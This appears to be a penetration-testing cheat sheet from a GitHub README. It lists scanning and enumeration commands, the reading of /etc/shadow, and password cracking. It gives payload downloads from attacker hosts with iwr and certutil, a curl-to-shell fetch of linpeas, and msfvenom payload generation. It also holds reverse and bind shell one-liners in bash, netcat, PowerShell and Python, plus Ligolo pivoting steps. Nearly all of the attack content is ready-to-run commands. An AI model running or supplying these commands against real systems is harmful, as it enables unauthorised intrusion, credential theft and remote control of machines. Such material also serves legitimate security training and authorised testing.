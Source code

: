 #unquo# Scanning and Enumeration

#### NMAP
`nmap -sn IP_range`<br>
`nmap -p- -sS -iL Live_Hosts_List`<br>
`nmap -sV -sC -p Open_Ports -iL Live_Hosts_List`<br>

Clean nmap output for port scan<br>
`cat scan.nmap | grep /|cut -d/ -f1| tr "\n" ","| sed 's/,$//'`

<img width="300" alt="NMAP_top_ports" src="https://github.com/ErvinTista/Paris/assets/13991872/85159f37-8f60-489e-b515-7a8f4c77e8d7">

#### DNS Enumeration
`host domain`<br>
`host -t mx domain`<br>
`host -t txt domain`<br>
`dnsrecon -d domain -t std`<br>
`dnsenum domain`<br>
`nslookup -type=TXT domain IP`<br>

#### TCP/UDP Port Scan
`nc -nvv -w -z IP port-port`<br>

#### SMB Enumeration
`nmap -v -p 139,445 --script smb-os-discovery IP`<br>

#### Web Enumeration
`sudo nmap -p80 --script=http-enum -sV IP` <br>
`gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 5`<br>
`feroxbuster --url domain --depth 2 --wordlist /usr/share/wordlists/dirb/common.txt -x .txt,.jpg`<br>

#### SNMP Enum
```
snmpwalk -v2c -c <public> <IP.address> NET-SNMP-EXTEND-MIB::nsExtendObjects //nsExtendObjects is not included by default
```

#### Linux Enumeration
`whoami`<br>
`hostname`<br>
`id`<br>
`cat /etc/passwd`<br>
`cat /etc/shadow`<br>
`cat /etc/os-release`<br>
`uname -a`<br>
`ip a`<br>
`ifconfig`<br>
`route`<br>
`history`<br>
`netstat -ano`<br>
`crontab -l`<br>
`cat /etc/cron*`<br>
`sudo -l`<br>
`env`<br>
`cat /etc/profile`<br>
`cat /etc/bashrc`<br>
`cat ~/.bash_profile`<br>
`cat ~/.bashrc`<br>
`ps -elf`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`<br>

## Exploit

#### Password Cracking
`hashcat -a 0 -m #hash_type hash.txt dictionary_list.txt`<br>

#### Transfers
`PS iwr -uri http://attacker.IP/met.exe -Outfile met.exe`<br>
`powershell wget -Uri http://attacker_IP/name.exe -OutFile C:\destination\directory\name.exe`<br>
`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`<br>

## Pivoting and Tunneling

## Persistence

## Shells and One Liners
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP.Addr.es.ss LPORT=443 -f exe -o staged_reverse_tcp.exe`

### Reverse Shells
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

### Bind Shells
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

`python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

### Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`; ctrl -z; stty raw -echo; fg; export TERM=xterm

### Pivoting with Ligolo - https://github.com/nicocha30/ligolo-ng
Add listener 
```
Server agent from attacker host then from the victim host(that has 2 nics) retrieve the ligolo agent.

From attacker host:
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ip addr show ligolo //will show interface is available, will initially have "down" in red
./proxy -selfcert //starts ligolo 

From victim host:
./agent -connect attacker.ip:11601 -ignore-cert //11601 is the default port for ligolo

From attacker host:
session //select new connection
ipconfig //shows the networks the machine is connected to

Set up the route. Open a new terminal in attacker host
sudo ip route add <IP.of.the.internal.network.you.want.to.reach>/24 dev ligolo

From attacker host, from the context of our agent session:
start

Can now reach the <IP.of.the.internal.network.you.want.to.reach> through your kali box. no proychains necessary.

Add forwarding

listener_add --add 0.0.0.0:<any-port> --to 127.0.0.1:<listening-port>
https://www.youtube.com/watch?v=DM1B8S80EvQ
```

Powershell history
```
Cat (Get-PSReadlineOption).HistorySavePath
```

Unquoted path in windows
```
Powershell
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName

cmd
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```



## Resources and Links
|Description|Link|
|-----------|----|
|Linux Privesc|https://payatu.com/blog/a-guide-to-linux-privilege-escalation/|
|LinWinMacPEAS|https://github.com/carlospolop/PEASS-ng|
|Nmap Pretty|https://github.com/honze-net/nmap-bootstrap-xsl|
|CrackMapExec|https://github.com/byt3bl33d3r/CrackMapExec|
|NetExec|https://github.com/Pennyw0rth/NetExec|
|CrackMapExec Cheatsheet + other good cheatsheets|https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/|

